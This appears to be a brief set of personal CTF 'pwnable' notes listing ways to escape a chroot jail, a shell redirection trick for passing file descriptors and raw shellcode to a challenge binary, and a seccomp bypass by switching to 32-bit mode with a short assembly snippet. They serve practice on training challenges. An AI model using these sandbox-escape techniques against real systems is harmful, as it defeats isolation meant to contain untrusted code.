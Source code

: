 pwnable notes

# escape chroot
https://github.com/earthquake/chw00t
```console
- wrong setup (chroot without chdir)
    -> open("../../flag")

- can open a directory befor chroot + chdir
    -> 1. use openat then read target file
    -> 2. use linkat
    -> 3. use fchdir
    -> 4. re chroot again to escapse the old chroot
    -> 5. if no opened file? let open once then pass through pipe (check pipe trick)
```

# pipe trick
```console
- you can open a file and pass to the fd you want like this
/challenge/babyjail_level8 0 < shellcode-raw 3</
```

# escape seccomp
```console
- exchange from amd64 into i386 to use difference number of SYS_No of syscalls
    xor rsp, rsp
    mov esp, 0x1337800
    mov DWORD PTR [esp+4], 0x23
    mov DWORD PTR [esp], 0x1337080
    retf
```